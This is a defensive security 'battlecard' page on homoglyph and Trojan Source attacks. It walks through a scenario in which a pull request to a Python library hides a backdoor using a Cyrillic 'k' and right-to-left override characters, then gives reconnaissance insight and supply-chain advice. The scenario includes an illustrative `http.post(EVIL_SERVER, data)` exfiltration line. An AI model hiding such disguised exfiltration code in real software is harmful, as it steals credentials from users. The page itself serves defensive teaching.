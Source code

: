 ```yaml
---
permalink: /battlecards/homoglyph-trojan
battlecard:
 title: Homoglyph and Trojan Source Attacks
 category: Cross-cutting
 scenario: Homoglyph & Trojan Source
 focus: 
   - unicode confusables 
   - BiDi control characters 
   - obfuscated malicious code 
---
```

{% block type='battlecard' text='Scenario' %}
An attacker targets a popular open-source Python library used for data parsing in financial and AI/ML applications. Their goal is to inject a subtle backdoor that exfiltrates sensitive data (like API keys or credentials) processed by the library.

The attacker submits a pull request (PR) to the project's public repository, claiming to improve performance by optimizing a string-handling function. The PR looks plausible and includes performance benchmarks.

However, embedded within the code are two obfuscation techniques:
1.  **Homoglyph:** A conditional check `if data.startswith('key'):` is modified to use a Cyrillic 'k' (`U+043A`) instead of the Latin 'k' (`U+006B`). A new, malicious `if` block is added using the legitimate Latin 'k', which will now always be a separate, untriggered check from the perspective of the original code's logic. This new block contains the malicious code.
2.  **BiDi Control Characters:** To hide the data exfiltration call, the attacker uses `RLO` (Right-to-Left Override) characters. The line of code logically executes as `http.post(EVIL_SERVER, data); // Log parsing error`, but visually appears in many editors and review tools as `// Log parsing error ;(EVIL_SERVER, data)http.post`.

A busy maintainer, focused on the performance claims and seeing passing unit tests, reviews the visually-innocuous code and merges the PR. The compromised version is later published to PyPI, and thousands of projects, including the ultimate target, automatically pull it in during their next build.

{% endblock %}
{% block type='battlecard' text='Reconnaissance' %}
### Explanation
Attackers look for high-value targets by proxy. They don't attack your company directly; they attack your dependencies. They scan public repositories on platforms like GitHub, GitLab, and package registries like npm, PyPI, and Maven Central to find libraries that are widely used but perhaps under-maintained. They look for projects with a low bus factor (few active maintainers), long PR review times, and a welcoming attitude toward external contributions. The attacker may build a trusted reputation by first submitting several legitimate bug fixes before delivering the malicious payload.

### Insight
This is a form of social engineering targeted at the open-source community's culture of trust and collaboration. The attacker exploits human factors—like reviewer fatigue and the assumption of good faith—as much as technical vulnerabilities. They are patient and play the long game.

### Practical
*   Map your software supply chain. Understand not just your direct dependencies, but your transitive dependencies (the dependencies of your dependencies).
*   Investigate the health of your critical dependencies. Check their repository for recent activity, the number of open issues vs. maintainers, and the rigor of their code review process.
*   Be wary of new, unknown contributors making complex changes, especially if the changes seem too good to be true (e.g., a massive, unexpected performance improvement).
